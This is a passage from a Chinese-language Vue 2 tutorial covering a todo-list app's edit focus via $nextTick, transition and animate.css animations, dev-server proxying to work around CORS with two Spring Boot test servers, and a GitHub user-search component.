     this.pubId = pubsub.subscribe('delTodo',this.delTodo)
     //绑定标记事件[消息总线]
     this.$bus.$on('editTodo',this.editTodo);
   },
   beforeDestroy() {
     this.$bus.$off('checkTodo')
     //this.$bus.$off('delTodo')
     //改用消息发布订阅
     pubsub.unsubscribe(this.pubId)//这个订阅消息每次都会生成一个id，取消订阅要用这个id
   	//销毁时事件解绑
     this.$bus.$off('editTodo')
   }
 }
 </script>
 
 <style>
 /*base*/
 body{
   background: #fff;
 }
 .btn{
   display: inline-block;
   padding: 4px 12px;
   margin-bottom: 0;
   font-size: 14px;
   line-height: 20px;
   text-align: center;
   vertical-align: middle;
   cursor: pointer;
   box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
   border-radius: 4px;
 }
 .btn-danger{
   color: #fff;
   background-color: #da4f49;
   border: 1px solid #bd362f;
 }
 .btn-danger:hover{
   color: #fff;
   background-color: #bd362f;
 }
 
 .btn-edit{
   color: #fff;
   background-color: skyblue;
   border: 1px solid deepskyblue;
 }
 .btn-edit:hover{
   color: #fff;
   background-color: deepskyblue;
 }
 
 .btn:focus{
   outline: none;
 }
 .todo-container{
   width: 600px;
   margin: 0 auto;
 }
 .todo-container .todo-wrap{
   padding: 10px;
   border: 1px solid #ddd;
   border-radius: 5px;
 }
 
 </style>
 ```

实现效果：


解决剩余的问题，当点击编辑后，应该直接给输入框获取焦点。因为更改编辑状态和获取输入框焦点的代码在同一个函数内，所以会出现先全部执行，在解析页面，导致我们的获取焦点代码没用。

这种场景很常见：

```
一个方法内的代码：
前面的代码修改了数据，要被Vue监视到并重新解析模板。
后面的代码处理重新解析后的模板的状态，但因为代码都在同一个方法体内。
最终就是全部代码都一次执行，Vue再去解析模板。
```


使用nextTick属性，让需要在Vue解析完后的操作被保留执行。

Item.vue

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)">
      <span v-show="!todo.isEdit">{{ todo.title }}</span>
      <input
          type="text"
          v-show="todo.isEdit"
          :value="todo.title"
          @blur="handleBlur($event,todo)"
          ref="inputTitle"
      >
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
    <button v-show="!todo.isEdit" class="btn btn-edit" @click="handleEdit(todo)">编辑</button>
  </li>
</template>

<script>
import pubsub from "pubsub-js";

export default {
  name: 'Item',
  props: ['todo'],//声明接收todo对象,'checkTodo','delTodo'
  methods: {
    handleCheck(id) {
      //console.log('id=',id)
      //通知App组件将对应的todo对象的done值取反
      //this.checkTodo(id);
      //改用全局事件总线
      this.$bus.$emit('checkTodo', id);
    },
    handleDelete(id) {
      if (confirm('确定删除吗?')) {
        console.log('del id=', id)
        //this.delTodo(id);
        //改用全局事件总线
        //this.$bus.$emit('delTodo',id);
        //改用消息发布订阅
        pubsub.publish('delTodo', id);
      }
    },
    handleEdit(todo) {
      //todo.isEdit = true;
      //用外部添加
      if (todo.hasOwnProperty('isEdit')) {//todo身上有isEdit属性
        console.log('已有isEdit')
        todo.isEdit = true;
      } else {//todo身上没有isEdit，追加进去
        console.log('没有isEdit')
        this.$set(todo, 'isEdit', true)
      }
      //这里的话Vue是直接执行过来获取焦点，再重新解析模板，等于没用。
      //this.$refs.inputTitle.focus();
      //使用nextTick下一轮，nextTick指定的回调会在DOM节点指定更新完后再调用
      this.$nextTick(function () {
        this.$refs.inputTitle.focus();//前面改了todo，Vue监视到后遇到这个函数，那就先解析模板完成更新，再调用这一行代码
      })
    },
    //失去焦点回调
    handleBlur(event,todo) {
      todo.isEdit = false;
      //判断数据有效性
      if (!event.target.value.trim()){
        return alert('输出不能为空！')
      }
      //将要改的值通过事件总线发送给App组件
      this.$bus.$emit('editTodo',todo.id,event.target.value);
    }
  }
}
</script>

<style scoped>
/*Item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}

li:hover {
  background-color: #ddd;
}

li:hover button {
  display: block;
}
</style>
```


### Vue过渡动画

#### Vue管理动画

实现一个动画效果：一个文本从左到右移入移出动画，点击按钮时切换。

* 使用css编写一个移入的动画，在定义样式时反转就得到移出的动画。
* 动画的切换可以自己定义事件调用，也可以由Vue实例来控制切换
* Vue中需要使用指定标签`<transition name='xxx'>`来包住动画效果标签，并且规定样式名
  * v-enter-active
  * v-leave-active
* 在切换时，Vue容器的状态是先变化，然后再播放动画
* 如果给标签`<transition>`添加name，则动画样式名要更改
  * xxx-enter-active
  * xxx-leave-active
  * 使用name的原因就是可以定义多个transition动画
* 使用标签`<transition :appear="true">`会让初始加载时就有动画效果
  * 简写`<transition appear>`
* 标签`<transition>`会在模板解析后消失

项目结构：

```
main.js
    |
    App.vue
        |
        Test.vue(动画效果)
```

App.vue

```vue
<template>
  <div>
    <Test/>
  </div>
</template>

<script>
import Test from "@/components/Test";


export default {
  name:'App',
  components:{Test},

}
</script>

<style>

</style>
```

Test.vue

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition name="cxk" appear>
      <h1 v-show="isShow">你好啊！</h1>
    </transition>
  </div>
</template>

<script>
  export default {
    name:'Test',
    data(){
      return{
        isShow:true
      }
    }
  }
</script>

<style scoped>
  h1{
    background-color: orange;
  }

  /*Vue管理：进入时要激活的样式*/
  .cxk-enter-active{
    animation: zhuzhe 1s linear;/*动画名，执行1s 匀速*/
  }
  /*Vue管理：出去时要激活的样式*/
  .cxk-leave-active{
    animation: zhuzhe 1s reverse linear;/*反转动画*/
  }

  /*定义一个动画关键帧*/
  @keyframes zhuzhe {
    from{
      transform: translateX(-100%);/*从左边看不到位置来*/
    }
    to{
      transform: translateX(0px);/*到这一个位置*/
    }
  }
</style>
```

效果：


#### Vue过渡效果

上面实现的效果是使用了动画样式，这里是使用Vue的过渡功能。

前面的Vue动画，是给标签切换了进入效果`cxk-enter-active`和离开效果`cxk-leave-active`。

在切换一个动画效果时，还会附加两个特殊样式：比如进入动画`cxk-enter-active`

* cxk-enter{...}：进入的起点
* cxk-dnter-to{...}：：进入的终点


离开动画`cxk-leave-active`

* cxk-leave{...}：离开的起点
* cxk-leave-to{...}：：离开的终点

这里是给传统定义的动画拆分成多个动画样式，逐一配置。

```css
h1{
    background-color: orange;
    transition: 0.5s linear;/*什么元素有动画，就给它直接加上*/
}
/*进入的起点*/
.cxk-enter{
    transform: translateX(-100%);/*从左边看不到位置来*/;
}
/*进入的终点*/
.cxk-enter-to{
    transform: translateX(0px);/*到这一个位置*/
}
/*离开的起点*/
.cxk-leave{
    transform: translateX(0px);/*从左边看不到位置来*/;
}
/*离开的终点*/
.cxk-leave-to{
    transform: translateX(-100%);/*到这一个位置*/
}
```

这里也可以优化下，比如这种只有进入和离开两种动画效果，则存在一些可以复用的样式：

* 进入的起点也就是离开的终点
* 进入的终点也就是离开的起点

```css
h1{
    background-color: orange;
}
/*为了不影响原先的样式代码，也将动画效果单独写*/
.cxk-enter-active,.cxk-leave-active{
    transition: 0.5s linear;/*0.5s动画匀速*/
}
/*进入的起点&离开的终点*/
.cxk-enter,.cxk-leave-to{
    transform: translateX(-100%);/*从左边看不到位置来*/;
}
/*进入的终点&离开的起点*/
.cxk-enter-to,.cxk-leave{
    transform: translateX(0px);/*到这一个位置*/
}
```

```
来和去的样式没法靠控制台查看到，因为在点击后就会立即给标签加上起点/终点的样式，Vue知道起点/终点信息后，动画的下一帧就移除了这些样式，动画的过程由Vue来控制。
```

代码：

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition name="cxk" appear>
      <h1 v-show="isShow">你好啊！</h1>
    </transition-group>
  </div>
</template>

<script>
  export default {
    name:'Test',
    data(){
      return{
        isShow:true
      }
    }
  }
</script>

<style scoped>
  h1{
    background-color: orange;
  }
  /*为了不影响原先的样式代码，也将动画效果单独写*/
  .cxk-enter-active,.cxk-leave-active{
    transition: 0.5s linear;/*0.5s动画匀速*/
  }
  /*进入的起点&离开的终点*/
  .cxk-enter,.cxk-leave-to{
    transform: translateX(-100%);/*从左边看不到位置来*/;
  }
  /*进入的终点&离开的起点*/
  .cxk-enter-to,.cxk-leave{
    transform: translateX(0px);/*到这一个位置*/
  }


  /*Vue管理：进入时要激活的样式*/
  /*.cxk-enter-active{
    animation: zhuzhe 1s linear;!*动画名，执行1s 匀速*!
  }*/
  /*Vue管理：出去时要激活的样式*/
  /*.cxk-leave-active{
    animation: zhuzhe 1s reverse linear;!*反转动画*!
  }*/
  /*定义一个动画关键帧*/
  /*@keyframes zhuzhe {
    from{
      transform: translateX(-100%);!*从左边看不到位置来*!
    }
    to{
      transform: translateX(0px);!*到这一个位置*!
    }
  }*/
</style>
```


#### Vue多元素过渡

使用`<transition>`只能控制一个标签的动画，不能包含多个标签


得使用`<transition-group>`标签来处理多个标签的动画效果，并且需要为每一个标签提供key值。



使用这种方式可以实现列表中的标签的动画效果各自独立

代码：

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition-group name="cxk" appear>
      <h1 v-show="!isShow" key="1">柠檬队长！</h1>
      <h1 v-show="isShow" key="2">鸡大侠！</h1>
    </transition-group>
  </div>
</template>

<script>
  export default {
    name:'Test',
    data(){
      return{
        isShow:true
      }
    }
  }
</script>

<style scoped>
  h1{
    background-color: orange;
  }
  /*为了不影响原先的样式代码，也将动画效果单独写*/
  .cxk-enter-active,.cxk-leave-active{
    transition: 0.5s linear;/*0.5s动画匀速*/
  }
  /*进入的起点&离开的终点*/
  .cxk-enter,.cxk-leave-to{
    transform: translateX(-100%);/*从左边看不到位置来*/;
  }
  /*进入的终点&离开的起点*/
  .cxk-enter-to,.cxk-leave{
    transform: translateX(0px);/*到这一个位置*/
  }


  /*Vue管理：进入时要激活的样式*/
  /*.cxk-enter-active{
    animation: zhuzhe 1s linear;!*动画名，执行1s 匀速*!
  }*/
  /*Vue管理：出去时要激活的样式*/
  /*.cxk-leave-active{
    animation: zhuzhe 1s reverse linear;!*反转动画*!
  }*/
  /*定义一个动画关键帧*/
  /*@keyframes zhuzhe {
    from{
      transform: translateX(-100%);!*从左边看不到位置来*!
    }
    to{
      transform: translateX(0px);!*到这一个位置*!
    }
  }*/
</style>
```

#### 集成第三方动画

成型的动画框架：animate.css

npm官网：https://www.npmjs.com/package/animate.css

框架官网：https://animate.style/


提供很多动画样式。

安装：

```shell
npm install animate.css
```


引入CSS库

```js
import 'animate.css' 
```

配置样式名：


编写动画效果

进入动画：enter-active-class

离开动画：leave-active-class

对应的动画样式可以在官网直观看到，看到喜欢的就右边点击复制就行


代码：

```vue
<template>
  <div>
    <button @click="isShow = !isShow">显示/隐藏</button>
    <transition-group
      name="animate__animated animate__bounce" appear
      enter-active-class="animate__swing"
      leave-active-class="animate__backOutUp"
    >
      <h1 v-show="!isShow" key="1">柠檬队长！</h1>
      <h1 v-show="isShow" key="2">鸡大侠！</h1>
    </transition-group>
  </div>
</template>

<script>
import 'animate.css'

  export default {
    name:'Test',
    data(){
      return{
        isShow:true
      }
    }
  }
</script>

<style scoped>
  h1{
    background-color: orange;
  }
</style>
```

展示效果：


#### 总结


### 案例：代办事项实现添加删除动画

原则：谁想有动画、有过渡，那就给它包一个transition标签

在代办事项中，要每一个Item有效果，那就改Item.vue

```vue
<template>
  <transition name="todo" appear>
    <li>
      <label>
        <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)">
        <span v-show="!todo.isEdit">{{ todo.title }}</span>
        <input
            type="text"
            v-show="todo.isEdit"
            :value="todo.title"
            @blur="handleBlur($event,todo)"
            ref="inputTitle"
        >
      </label>
      <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
      <button v-show="!todo.isEdit" class="btn btn-edit" @click="handleEdit(todo)">编辑</button>
    </li>
  </transition>
</template>

<script>
import pubsub from "pubsub-js";

export default {
  name: 'Item',
  props: ['todo'],//声明接收todo对象,'checkTodo','delTodo'
  methods: {
    handleCheck(id) {
      //console.log('id=',id)
      //通知App组件将对应的todo对象的done值取反
      //this.checkTodo(id);
      //改用全局事件总线
      this.$bus.$emit('checkTodo', id);
    },
    handleDelete(id) {
      if (confirm('确定删除吗?')) {
        console.log('del id=', id)
        //this.delTodo(id);
        //改用全局事件总线
        //this.$bus.$emit('delTodo',id);
        //改用消息发布订阅
        pubsub.publish('delTodo', id);
      }
    },
    handleEdit(todo) {
      //todo.isEdit = true;
      //用外部添加
      if (todo.hasOwnProperty('isEdit')) {//todo身上有isEdit属性
        console.log('已有isEdit')
        todo.isEdit = true;
      } else {//todo身上没有isEdit，追加进去
        console.log('没有isEdit')
        this.$set(todo, 'isEdit', true)
      }
      //这里的话Vue是直接执行过来获取焦点，再重新解析模板，等于没用。
      //this.$refs.inputTitle.focus();
      //使用nextTick下一轮，nextTick指定的回调会在DOM节点指定更新完后再调用
      this.$nextTick(function () {
        this.$refs.inputTitle.focus();//前面改了todo，Vue监视到后遇到这个函数，那就先解析模板完成更新，再调用这一行代码
      })
    },
    //失去焦点回调
    handleBlur(event,todo) {
      todo.isEdit = false;
      //判断数据有效性
      if (!event.target.value.trim()){
        return alert('输出不能为空！')
      }
      //将要改的值通过事件总线发送给App组件
      this.$bus.$emit('editTodo',todo.id,event.target.value);
    }
  }
}
</script>

<style scoped>
/*Item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}

li:hover {
  background-color: #ddd;
}

li:hover button {
  display: block;
}
/*动画效果*/
/*进入效果*/
.todo-enter-active{
  animation:item-animate 0.5s linear;
}
/*离开效果*/
.todo-leave-active{
  animation:item-animate 0.5s reverse linear;
}
/*动画起点和终点*/
@keyframes item-animate {
  from{
    transform: translateX(100%);/*从右边当前盒子外*/
  }
  to{
    transform: translateX(0px);/*到当前元素位置*/
  }
}
</style>
```

效果：


同理，这种实现方式也可以在外部的List.vue中配合transition-group标签中实现（既然在List中实现了，那把Item中的动画代码删除）

```vue
<template>
  <ul class="todo-main">
    <transition-group name="todo" appear>
      <Item
          v-for="todo of todos"
          :key="todo.id"
          :todo="todo"
      /><!--将App的回调函数传递给Item-->
    </transition-group>

<!--    :checkTodo="checkTodo"-->
<!--    :delTodo="delTodo"-->
  </ul>
</template>

<script>
import Item from "@/components/Item";

  export default {
    name:'List',
    components: {Item},
    props:['todos']//,'checkTodo','delTodo'
  }
</script>

<style scoped>
/*Main*/
.todo-main{
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}
.todo-empty{
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}

/*动画效果*/
/*进入效果*/
.todo-enter-active{
  animation:item-animate 0.5s linear;
}
/*离开效果*/
.todo-leave-active{
  animation:item-animate 0.5s reverse linear;
}
/*动画起点和终点*/
@keyframes item-animate {
  from{
    transform: translateX(100%);/*从右边当前盒子外*/
  }
  to{
    transform: translateX(0px);/*到当前元素位置*/
  }
}
</style>
```

一样的实现效果：


### 配置代理（Ajax跨域）

#### 测试服务器

这里需要启动两个后端服务，来测试Ajax请求，可以用Spring快速构建两台服务器


选一个web依赖，因为有get请求场景


同时也使用这种方式创建另外一个服务vue-server2

两个服务器提供类似的Get请求接口，返回一串JSON字符串

vue-server1：http://localhost:5000/students

代码：

application.properties

```properties
server.port=5000
```

Student.java

```java
package com.zhuzhe.vueserver1.entity;

/**
 * @Author: zhuzhe
 * @ClassName: Student
 * @Date: 2022/11/18 16:22
 * @Description:
 * @Version: V1.0
 * @Param:
 */
public class Student {
    private String id;
    private String name;
    private Integer age;

    public Student() {
    }

    public Student(String id, String name, Integer age) {
        this.id = id;
        this.name = name;
        this.age = age;
    }

    public String getId() {
        return id;
    }

    public void setId(String id) {
        this.id = id;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public Integer getAge() {
        return age;
    }

    public void setAge(Integer age) {
        this.age = age;
    }

    @Override
    public String toString() {
        return "Student{" +
                "id='" + id + '\'' +
                ", name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

TestController.java

```java
package com.zhuzhe.vueserver1.controller;

import com.zhuzhe.vueserver1.entity.Student;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

import java.util.ArrayList;
import java.util.List;

/**
 * @Author: zhuzhe
 * @ClassName: TestController
 * @Date: 2022/11/18 16:20
 * @Description:
 * @Version: V1.0
 * @Param:
 */
@RestController
@RequestMapping("students")
public class TestController {
    @GetMapping
    public List<Student> main(){
        System.out.println("有人请求服务器vue-server1");
        List<Student> list = new ArrayList<>();
        list.add(new Student("001","zhuzhe",22));
        list.add(new Student("002","cxr",26));
        list.add(new Student("003","cxk",29));
        return list;
    }
}
```

效果：


vue-server2：http://localhost:5001/cars

代码：

application.properties

```properties
server.port=5001
```

Car.java

```java
package com.zhuzhe.vueserver2.entity;

/**
 * @Author: zhuzhe
 * @ClassName: Car
 * @Date: 2022/11/18 16:22
 * @Description:
 * @Version: V1.0
 * @Param:
 */
public class Car {
    private String id;
    private String name;
    private Double price;

    public Car() {
    }

    public Car(String id, String name, Double price) {
        this.id = id;
        this.name = name;
        this.price = price;
    }

    public String getId() {
        return id;
    }

    public void setId(String id) {
        this.id = id;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public Double getPrice() {
        return price;
    }

    public void setPrice(Double price) {
        this.price = price;
    }

    @Override
    public String toString() {
        return "Car{" +
                "id='" + id + '\'' +
                ", name='" + name + '\'' +
                ", price=" + price +
                '}';
    }
}
```

TestController.java

```java
package com.zhuzhe.vueserver2.controller;

import com.zhuzhe.vueserver2.entity.Car;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

import java.util.ArrayList;
import java.util.List;

/**
 * @Author: zhuzhe
 * @ClassName: TestController
 * @Date: 2022/11/18 16:20
 * @Description:
 * @Version: V1.0
 * @Param:
 */
@RestController
@RequestMapping("cars")
public class TestController {
    @GetMapping
    public List<Car> main(){
        System.out.println("有人请求服务器vue-server2");
        List<Car> list = new ArrayList<>();
        list.add(new Car("001","奔驰",199D));
        list.add(new Car("002","马自达",109D));
        list.add(new Car("003","大众",120D));
        return list;
    }
}
```

效果：


#### 模拟Ajax请求出现跨域

> 常用的发送ajax请求的方式

* xhr（不推荐，太麻烦）

  

* jQuery（xhr二次封装，不推荐，jQuery核心是封装dom操作，使用vue是为了减少操作dom）

  

* axios（xhr二次封装，体积小，promise风格，**推荐**）

* fetch（和xhr平级，promise风格，兼容性问题，不推荐）

下载axios

```
npm i axios
```


引入并发送get请求

```vue
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
  </div>
</template>

<script>
import axios from 'axios'

export default {
  name:'App',
  methods:{
    getStudents(){
      axios.get('http://localhost:5000/students').then(
          response =>{
            console.log('请求成功了！',response.data)//输出数据
          },
          error =>{
            console.log('请求失败了！',error.message)//输出错误信息
          }
      )
    }
  }
}
</script>

```

测试效果：出现了跨域CORS报错


```
所谓跨域就是违背了同源策略：
同源策略规定了三样东西必须保持一致：
* 协议名
* 主机名
* 端口号
```

跨域是成功发送请求的了，但是解析结果被停止，因为浏览器发现了该请求跨域：


#### 解决跨域问题

1. cors解决：加响应头，真正解决【要后端改】

   

2. jsonp解决：借助script src不受同源策略影响的特性，只能解决get请求【要前后端配合改】

3. 代理服务器解决：比较常用

   

   前端服务器和代理服务器都是8080端口，没有跨域问题。代理服务器和后端服务器不使用ajax请求，也就没有跨域问题。

   实现方式：nginx、vue-cli(脚手架)


#### vue-cli配置代理服务器（方式一）

官网：https://cli.vuejs.org/zh/config/#devserver-proxy

配置位置也就是我们之前配置脚手架入口js的vue.config.js文件

```js
const { defineConfig } = require('@vue/cli-service')
module.exports = defineConfig({
  transpileDependencies: true,
  pages:{
    index:{
      //配置新的Vue脚手架项目入口
      entry:'src/main.js'
    }
  },
  lintOnSave:false, //关闭语法检查
  devServer: {
    proxy: 'http://localhost:5000'//开启代理服务器，这里配置到时候要代理请求到的真实服务器地址
  }
})
```

更改之前的代码，不直接请求真实服务器，去请求代理服务器

```vue
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
  </div>
</template>

<script>
import axios from 'axios'

export default {
  name:'App',
  methods:{
    getStudents(){
      axios.get('http://localhost:8080/students').then(
          response =>{
            console.log('请求成功了！',response.data)//输出数据
          },
          error =>{
            console.log('请求失败了！',error.message)//输出错误信息
          }
      )
    }
  }
}
</script>
```

这时候就可以获取数据了：


> 注意点

当代理服务器本身有的资源（index.html、favicon.ico）时。请求将不会到达真实服务器，而是从代理服务器中直接返回：


**所以要注意在项目中避免有和请求一样的文件。并且使用这种方式配置的代理服务器只能配置一台，如果有请求多台服务器的情况则无法适应。**


#### vue-cli配置代理服务器（方式二）

> 解决前面所出现的代理服务器问题。

配置方式二，官网：https://cli.vuejs.org/zh/config/#devserver-proxy

* 请求前缀：用来区分开本地请求还是服务器请求，用来区分不同代理服务器
  * 要配合前缀裁剪

代码：

vue.config.js

```js
const { defineConfig } = require('@vue/cli-service')
module.exports = defineConfig({
  transpileDependencies: true,
  pages:{
    index:{
      //配置新的Vue脚手架项目入口
      entry:'src/main.js'
    }
  },
  lintOnSave:false, //关闭语法检查
  /*devServer: {//配置方式一
    proxy: 'http://localhost:5000'//开启代理服务器，这里配置到时候要代理请求到的真实服务器地址
  }*/
  devServer: {//配置方式二
    proxy: {
      '/zhuzhe': {//请求前缀
        target: 'http://localhost:5000',
        pathRewrite:{'^/zhuzhe':''},//匹配以zhuzhe开头的路径，并替换为空，让转发给服务器的请求没有前缀
        ws: true,//用于支持websocket【默认】
        changeOrigin: true//用于控制请求头中的host【默认】
      },
      '/cxr':{//第二台代理服务器
        target: 'http://localhost:5001',
        pathRewrite:{'^/cxr':''}
      }
    }
  }
})
```

App.vue

```vue
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
    <button @click="getCars">获取汽车信息</button>
  </div>
</template>

<script>
import axios from 'axios'

export default {
  name:'App',
  methods:{
    getStudents(){
      axios.get('http://localhost:8080/zhuzhe/students').then(
          response =>{
            console.log('请求成功了！',response.data)//输出数据
          },
          error =>{
            console.log('请求失败了！',error.message)//输出错误信息
          }
      )
    },
    getCars(){
      axios.get('http://localhost:8080/cxr/cars').then(
          response =>{
            console.log('请求成功了！',response.data)//输出数据
          },
          error =>{
            console.log('请求失败了！',error.message)//输出错误信息
          }
      )
    }
  }
}
</script>
```

实现效果：


#### 总结


### 案例：Github搜索

#### 组件化编码：第一步，拆分静态组件

```
拆分出两个组件和一个App组件
```


将原始项目代码还有样式框架bootstrap.css引入脚手架项目

bootstrap.css：https://www.bootcdn.cn/twitter-bootstrap/


bootstrap.css有两种引入方式：

* 在src下面建立assets文件夹

  

  在App.vue中引入，但这样会有严格检查，发现关联的字体文件没有引入而报错

  

  

  

* 在公共文件夹中引入bootstrap.css

  

  然后在展示容器的index.html页面中引入bootstrap.css

  ```html
  <!DOCTYPE html>
  <html lang="">
    <head>
      <meta charset="utf-8">
      <!--正对IE浏览器的一个特殊配置，含义是让IE浏览器以最高渲染级别渲染页面-->
      <meta http-equiv="X-UA-Compatible" content="IE=edge">
      <!--开启移动端的理想视口-->
      <meta name="viewport" content="width=device-width,initial-scale=1.0">
      <!--配置页签图标：当前目录-->
      <link rel="icon" href="<%= BASE_URL %>favicon.ico">
      <!--引入bootstrap-->
      <link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css">
      <!--配置页签标题-->
      <title><%= htmlWebpackPlugin.options.title %></title>
    </head>
    <body>
      <!--noscript如果浏览器不支持js则会出现下面的内容-->
      <noscript>
        <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
      </noscript>
      <!--容器-->
      <div id="app"></div>
      <!-- built files will be auto injected -->
    </body>
  </html>
  
  ```

  这种方式就不会检查关联文件了。将标签和样式先全部粘贴到App.vue中

  ```vue
  <!DOCTYPE html>
  <html lang="">
    <head>
      <meta charset="utf-8">
      <!--正对IE浏览器的一个特殊配置，含义是让IE浏览器以最高渲染级别渲染页面-->
      <meta http-equiv="X-UA-Compatible" content="IE=edge">
      <!--开启移动端的理想视口-->
      <meta name="viewport" content="width=device-width,initial-scale=1.0">
      <!--配置页签图标：当前目录-->
      <link rel="icon" href="<%= BASE_URL %>favicon.ico">
      <!--引入bootstrap-->
      <link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css">
      <!--配置页签标题-->
      <title><%= htmlWebpackPlugin.options.title %></title>
    </head>
    <body>
      <!--noscript如果浏览器不支持js则会出现下面的内容-->
      <noscript>
        <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
      </noscript>
      <!--容器-->
      <div id="app"></div>
      <!-- built files will be auto injected -->
    </body>
  </html>
  
  ```

  


开始根据结构进行拆分

App.vue

```vue
<template>
  <div class="container">
    <Search/>
    <list/>
  </div>
</template>

<script>
import Search from './components/Search'
import List from './components/List'

export default {
  name: 'App',
  components: {Search, List}
}
</script>
```

Search.vue

```vue
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <input type="text" placeholder="enter the name you search">&nbsp;<button>Search</button>
    </div>
  </section>
</template>

<script>

</script>

<style>

</style>
```

List.vue

```vue
<template>
  <div class="row">
    <div class="card">
      <a href="https://github.com/xxxx" target="_blank">
        
      </a>
      <p class="card-text">xxxxxx</p>
    </div>
    <div class="card">
      <a href="https://github.com/xxxx" target="_blank">
        
      </a>
      <p class="card-text">xxxxxx</p>
    </div>
    <div class="card">
      <a href="https://github.com/xxxx" target="_blank">
        
      </a>
      <p class="card-text">xxxxxx</p>
    </div>
    <div class="card">
      <a href="https://github.com/xxxx" target="_blank">
        
      </a>
      <p class="card-text">xxxxxx</p>
    </div>
  </div>
</template>

<script>

</script>

<style scoped>
.album{
  min-height: 50rem;
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}
.card{
  float: left;
  width: 33.333%;
  padding: .75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}
.card > img{
  margin-bottom: .75rem;
  border-radius: 100px;
}
.card-text{
  font-size: 85%;
}
</style>
```

展示效果：


#### 组件化编码：第二部，改为动态数据

数据是展示在List中的，先不管组件的关联关系，既然展示的列表静态数据在List.vue中，那就先在List.vue中定义data编写动态数据

这里的用户数据是来源github的接口地址：https://api.github.com/search/users?q=xxx

所以我们要做的是请求地址，将数据展示

要先调用接口才能获取数据，所以：

先编写Search.vue的获取用户搜索内容，这里github使用cors解决了跨域问题（一劳永逸）

因为搜索的数据在Search.vue中，而List需要数据做展示，这时候可以使用全局事件总线。

List绑定事件编写回调，Search触发事件发送数据

代码：

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'

//关闭vue的生产提示
Vue.config.productionTip=false

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App),//全局的实例都有插件中的data追加值
    beforeCreate() {
        Vue.prototype.$bus = this;//安装全局事件总线
    }
})
```

App.vue

```vue
<template>
  <div class="container">
    <Search/>
    <list/>
  </div>
</template>

<script>
import Search from './components/Search'
import List from './components/List'

export default {
  name: 'App',
  components: {Search, List}
}
</script>
```

Search.vue

```vue
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <input type="text" placeholder="enter the name you search" v-model="keyword">&nbsp;<button @click="searchUsers">
      Search
    </button>
    </div>
  </section>
</template>

<script>
import axios from "axios";

export default {
  name: 'SearchInfo',
  data() {
    return {
      keyword: ''
    }
  },
  methods: {
    searchUsers() {
      axios.get(`https://api.github.com/search/users?q=${this.keyword}`).then(
          response => {
              console.log('请求成功！',response.data)
            //触发全局事件总线
            this.$bus.$emit('getUsers',response.data.items)
          },
          error => {
            console.log('请求失败！',error.message)
          }
      )
    }
  }
}
</script>

<style>

</style>
```

List.vue

```vue
<template>
  <div class="row">
    <div class="card" v-for="user in users" :key="user.login">
      <a :href="user.html_url" target="_blank">
        
      </a>
      <p class="card-text">{{user.login}}</p>
    </div>
  </div>
</template>

<script>
  export default {
    name:'ListInfo',
    data(){
      return{
        users:[]
      }
    },
    methods:{
      searchUser(users){
        console.log('我是List，成功接收到users=',users)
        this.users = users;
      }
    },
    mounted() {
      this.$bus.$on('getUsers',this.searchUser)
    }
  }
</script>

<style scoped>
.album{
  min-height: 50rem;
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}
.card{
  float: left;
  width: 33.333%;
  padding: .75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}
.card > img{
  margin-bottom: .75rem;
  border-radius: 100px;
}
.card-text{
  font-size: 85%;
}
</style>
```

展示效果：


